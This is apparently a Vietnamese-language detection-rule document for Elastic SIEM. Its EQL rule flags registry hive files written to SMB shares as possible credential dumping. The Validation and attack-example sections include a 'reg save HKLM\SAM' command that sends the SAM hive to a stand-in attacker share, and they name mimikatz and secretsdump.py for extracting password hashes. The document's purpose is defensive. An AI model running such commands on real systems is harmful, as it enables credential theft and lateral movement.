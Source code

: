 
---

# Windows Registry File Creation in SMB Share

## Goal

Phát hiện hành vi tạo hoặc chỉnh sửa file hive của Windows Registry (SAM, SYSTEM, SECURITY, NTUSER.DAT, v.v.) trong thư mục chia sẻ SMB. Đây có thể là dấu hiệu kẻ tấn công đang sao chép registry hive để lấy thông tin đăng nhập và di chuyển sang hệ thống khác.

## Categorization

* [Credential Access](https://attack.mitre.org/tactics/TA0006/) / [OS Credential Dumping](https://attack.mitre.org/techniques/T1003/)
* [Lateral Movement](https://attack.mitre.org/tactics/TA0008/) / [Remote Services](https://attack.mitre.org/techniques/T1021/)

## Strategy Abstract

Detection dựa trên việc theo dõi file registry hive (có header `regf`) với kích thước trung bình (\~≥30KB), được tạo bởi tiến trình **System (PID 4)**, trong môi trường Windows, và được ghi ra **SMB share**. Các đường dẫn và file hợp lệ (profile, settings, temporary offreg) đã được loại trừ để giảm cảnh báo giả.

## Technical Context

* **Nguồn dữ liệu**: Elastic Defend (`logs-endpoint.events.file-*`)
* **Logic rule (EQL)**:

  ```eql
  file
  where host.os.type == "windows" and event.type == "creation" and
    file.Ext.header_bytes : "72656766*" and file.size >= 30000 and
    process.pid == 4 and user.id : ("S-1-5-21*", "S-1-12-1-*") and
    not file.path : (
      "?:\\*\\UPM_Profile\\NTUSER.DAT",
      "?:\\*\\UPM_Profile\\NTUSER.DAT.LASTGOODLOAD",
      "?:\\*\\UPM_Profile\\AppData\\Local\\Microsoft\\Windows\\UsrClass.dat*",
      "?:\\Windows\\Netwrix\\Temp\\????????.???.offreg",
      "?:\\*\\AppData\\Local\\Packages\\Microsoft.*\\Settings\\settings.dat*"
    )
  ```
* **Ý nghĩa**:

  * Header `72656766` tương ứng với chữ ký `regf` trong file registry hive.
  * `process.pid == 4` → tiến trình **System** (thực hiện I/O cấp kernel).
  * `user.id` dạng `S-1-5-21*` hoặc `S-1-12-1-*` → người dùng cục bộ hoặc domain.
* **Ví dụ tấn công**:

  * Kẻ tấn công dump `SAM` hive và sao chép qua `\\attacker\share\sam.reg`.
  * Sau đó sử dụng công cụ như **mimikatz** hoặc **secretsdump.py** để trích xuất hash mật khẩu.

## Blind Spots and Assumptions

* Rule chỉ phát hiện registry hive có kích thước >30KB. Nếu attacker nén/fragment hive → có thể tránh bị phát hiện.
* Nếu exfiltration qua cơ chế khác (HTTP, RDP clipboard, cloud sync) → rule không phát hiện.
* Một số ứng dụng backup hợp pháp có thể thao tác hive nhưng ghi ra SMB share với pattern khác.

## False Positives

* Sao lưu profile người dùng trong môi trường VDI (Citrix, UPM).
* Ứng dụng quản trị hợp pháp (Netwrix, Microsoft apps) tạo/ghi hive trong quá trình backup hoặc cấu hình roaming profile.
* Các tool quản trị hợp pháp tạo file offreg (`.offreg`) đã được loại trừ, nhưng vẫn có thể phát sinh FP nếu phần mềm backup không nằm trong danh sách loại trừ.

## Validation

Để kiểm thử:

1. Trên Windows host, dump một hive registry (ví dụ SAM):

   ```powershell
   reg save HKLM\SAM \\attacker\share\sam.reg
   ```
2. Đảm bảo file `sam.reg` được ghi ra SMB share.
3. Trong Elastic SIEM, xác nhận rule sinh cảnh báo.

## Priority

* **Medium** khi phát hiện file hive được tạo, nhưng chưa rõ mục đích.
* **High** nếu xác nhận file chứa `SAM`, `SYSTEM`, hoặc `SECURITY` hive được ghi ra SMB share không hợp lệ.

## Response

1. Kiểm tra file path và SMB share đích (`file.path`).
2. Xác định user SID (`user.id`) và tiến trình sinh ra hành vi.
3. Kiểm tra host đích để xác nhận có hành vi dump registry hive.
4. Nếu nghi ngờ tấn công:

   * Cô lập host bị ảnh hưởng.
   * Thu thập registry hive dump để phân tích.
   * Reset mật khẩu các tài khoản có nguy cơ bị lộ.
   * Kiểm tra lateral movement từ share đích.

## Additional Resources

* MITRE ATT\&CK: [OS Credential Dumping (T1003)](https://attack.mitre.org/techniques/T1003/)
* Microsoft Docs: [Registry Hive Files](https://learn.microsoft.com/en-us/windows/win32/sysinfo/registry-hives)
* Elastic Security Rules: [Prebuilt Detection Rules](https://www.elastic.co/guide/en/security/current/prebuilt-rules.html)

---

